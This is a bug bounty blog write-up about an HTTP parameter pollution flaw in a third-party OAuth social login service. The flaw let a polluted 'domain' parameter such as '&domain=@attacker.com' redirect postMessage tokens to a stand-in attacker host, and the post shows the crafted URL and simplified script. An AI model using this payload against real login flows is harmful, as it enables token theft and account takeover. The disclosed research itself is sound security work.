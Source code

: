 ```yaml
---
title: How one Parameter Pollution bug left many apps vulnerable to Account Takeover
date: 2024-02-01 04:00:00 +0100
categories: [Write-ups,OAuth]
tags: [parameter_pollution,oauth,postmessage]     # TAG names should always be lowercase
---
```


## INTRO
<p align="justify">While testing a private bug bounty program that enables users to log in using their social media accounts, I noticed that most of the OAuth flow happened on a completely different domain that didn’t belong to the target. Let’s call this domain “redacted.com”.</p>

<p align="justify">I did a quick search and found out that the “redacted.com” domain belongs to a cloud-based identity management service. This service offers its customers the ability to add a social login feature to their applications, among other things. I also saw that they have a Vulnerable Disclosure Program so I decided to take a closer look at the social login flow. If you’ve read my <a href="/posts/blog1/">previous blog post</a>, you know that I like testing for OAuth bugs.</p>

<p align="justify">I ended up finding a <b>HTTP parameter pollution</b> bug that allowed me to leak authentication tokens, leaving every app using the service vulnerable to account takeover attacks.</p>

## THE SOCIAL LOGIN FLOW
<p align="justify">When a user clicks on “Login with Google” on the target app I was initially testing, a new window opens and makes a request to <b>https://redacted.com/social-login</b>. The redacted.com domain then initiates the OAuth flow with Google and finally sends the user’s authentication token, along with other user information, back to the target app via a postMessage function. The target app receives this data and uses it to log in the user.</p>

<p align="justify">The request to https://redacted.com/social-login includes a “<b>domain</b>” parameter that contains a URL of the target application. Redacted.com verifies on the backend whether the provided URL matches a whitelisted URL. If you change the value to another domain (for example, “https://attacker.com”), you will receive an error message saying that it is an invalid domain and the login flow will be terminated.</p>

<p align="justify">If the URL passes the check, the OAuth flow is initiated, and redacted.com uses the domain value to set the postMessage’s targetOrigin parameter and send the user’s auth token to the target application. The page responsible for sending the token contained a script with the following code (I simplified the actual code for the blog post):</p>

```
var reqDomain = “https://target.com”; //the domain value is reflected here
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```

<p align="justify">This check is necessary because it prevents an attacker from simply modifying the domain parameter to "https://attacker.com" and having redacted.com send a victim’s authentication token and user data to this domain. However, it was flawed.</p>

## THE VULNERABILITY
<p align="justify">I tried a few common techniques to bypass this type of check, like setting the domain to ‘target.com.attacker.com’, ‘target.com@attacker.com’, and other variations but I still got the error message. Eventually, I found a way to bypass the check and send the data to an arbitrary domain using a <b>HTTP parameter pollution</b> attack.</p>

<p align="justify">A parameter pollution attack is a type of attack that is carried out by sending multiple parameters with the same name but with different values in a URL. For example, consider the following query string: <br><b>?domain=target.com&domain=attacker.com</b>

<p align="justify">In this example, there are two “domain” parameters, but each one has a different value. Different web servers behave in different ways when receiving multiple parameters with the same name. Some will take the first occurrence (“target.com”), some will take the last one (“attacker.com”), and some will read them as an array. This can sometimes cause unexpected behaviors that can be exploited by attackers.</p>

<p align="justify">To bypass the check on redacted.com, I added a second "domain" parameter with a different value:<br>
https://redacted.com/social-login?<b>domain</b>=https://target.com&<b>domain</b>=https://attacker.com</p>

<p align="justify">This time, the request did not cause an error and the response contained the following code:</p>

```
var reqDomain = “https://target.com,https://attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```

<p align="justify">As you can see, the reqDomain variable now has the <b>two URLs</b> separated by a comma. That’s a good sign (for us at least)! I can only guess what’s causing this bypass since I don’t have access to the backend code but it’s clear that only the first domain value is validated while the second malicious domain is ignored. However, both values are returned as a comma-separated string. In this case it only worked when the first domain value was set to a valid whitelisted URL. If you switched the values, you would get an error message again.</p>

<p align="justify">Cool, we found a way to bypass the URL validation and get an unintended result. So how can we exploit this now? Our goal is to leak the authentication token, and to do so, we need to manipulate the postMessage targetOrigin parameter to send the message to a domain under our control.</p>

<p align="justify">At this point I wondered what would happen if we set the second domain parameter to "<b>@attacker.com</b>". If that resulted in a URL like "https://target.com,@attacker.com", it would technically be a valid URL, since the part before "@" would be interpreted as a username/password and the part after "@" would be the URL's domain.</p>

![url-structure](/assets/images/url-struct.jpg)

<p align="justify">Sure enough, this actually worked! Sending a request to <b>https://redacted.com/social-login?domain=https://target.com&domain=@attacker.com</b> resulted in the following response, enabling attacker.com to receive a message containing the authentication token:</p>

```
var reqDomain = “https://target.com,@attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain); //sends token to attacker.com
```


## EXPLOITATION

<p align="justify">To exploit this vulnerability, an attacker can trick a victim into initiating the OAuth flow from their malicious domain by opening a new window and requesting the URL with the polluted parameters.
Once redacted.com receives the authentication token, it will send it to the attacker's domain via the postMessage() function. The attacker can then use this leaked token to gain unauthorized access to the victim's account.</p>

<p align="justify">If the victim has previously authorized Google to share their data/tokens with redacted.com, the token will be sent automatically to the attacker without needing further user interaction.</p>

<p align="justify">I don't know the exact number of apps that use this third-party service for their social login feature, but every app that did was vulnerable to account takeovers because of this basic but impactful bug.</p>

## CONCLUSION
<p align="justify">HTTP Parameter Pollution is a simple bug type, but it can have a big security impact. I’ve used it a few times before to bypass similar checks, so it’s definitely a good idea to keep it in your bag of tricks.</p>

<p align="justify">I reported the bug to the third-party service through their Vulnerable Disclosure Program and it is now fixed. However, I didn’t report the bug to the private bug bounty program I was testing. Mainly because I didn't want them to close my report as ‘Informative’ or ‘N/A’ since the vulnerability was out of their control. I kind of regret not reporting it now, but at the time, I guess I cared more about my platform stats than getting a potential bounty. What would you have done in this situation?</p>

<br>
<p align="justify">To wrap up, I'm also including a list of helpful resources for those of you who want to learn more about HTTP Parameter Pollution, OAuth and OAuth vulnerabilities.</p>

- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<br>

- https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth
- https://portswigger.net/web-security/oauth
- https://www.oauth.com/
- https://www.rfc-editor.org/rfc/rfc6749

<br>

- https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
- https://ninetyn1ne.github.io/2022-02-21-oauth-postmessage-misconfig/
- https://ysamm.com/?p=763
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
- https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- https://blog.securityinnovation.com/pentesters-guide-to-evaluating-oauth-2.0 
- https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com 
- https://blog.dixitaditya.com/oauth-account-takeover 
